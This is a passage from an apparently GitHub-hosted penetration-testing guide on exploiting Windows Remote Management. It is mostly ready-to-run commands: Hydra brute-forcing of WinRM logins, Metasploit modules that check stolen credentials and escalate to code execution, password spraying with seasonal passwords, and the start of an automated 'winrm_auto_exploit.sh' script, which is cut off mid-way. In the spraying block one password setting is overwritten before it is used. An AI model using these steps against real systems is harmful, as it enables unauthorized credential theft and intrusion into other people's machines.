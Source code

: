 ### **🔧 Integration with Password Attacks:**

#### **Using Hydra Before Metasploit:**
```bash
# Initial credential discovery with Hydra
hydra -L users.txt -P passwords.txt target_ip winrm

# If Hydra finds credentials, verify with Metasploit
msfconsole -q
use auxiliary/scanner/winrm/winrm_cmd
set USERNAME hydra_found_user
set PASSWORD hydra_found_pass
set CMD whoami
exploit

# Then escalate to full exploitation
use exploit/windows/winrm/winrm_script_exec
set USERNAME hydra_found_user
set PASSWORD hydra_found_pass
exploit
```

#### **Credential Spraying Approach:**
```bash
# Test one password against many users (avoid lockout)
use auxiliary/scanner/winrm/winrm_login
set RHOSTS target_ip
set USER_FILE domain_users.txt
set PASSWORD Winter2024!
set STOP_ON_SUCCESS true
exploit

# If successful, try password variations
set PASSWORD Spring2024!
set PASSWORD Password123
exploit
```

### **⚙️ Automation Script for Efficiency:**

```bash
#!/bin/bash
# winrm_auto_exploit.sh - Automated WinRM exploitation

TARGET=$1
LOGFILE="winrm_exploit_$(date +%Y%m%d_%H%M%S).log"

if [ -z "$TARGET" ]; then
    echo "Usage: $0 <target_ip>"
    exit 1
fi

echo "[+] Starting automated WinRM exploitation for $TARGET" | tee $LOGFILE
echo "[+] Timestamp: $(date)" | tee -a $LOGFILE

# Phase 1: Port Discovery
echo "[+] Phase 1: Scanning for WinRM service" | tee -a $LOGFILE
nmap -p 5985,5986 $TARGET | tee -a $LOGFILE

# Phase 2: Authentication Methods Check
echo "[+] Phase 2: Checking authentication methods" | tee -a $LOGFILE
msfconsole -x "use auxiliary/scanner/winrm/winrm_auth_methods; set RHOSTS $TARGET; exploit; exit" | tee -a $LOGFILE

```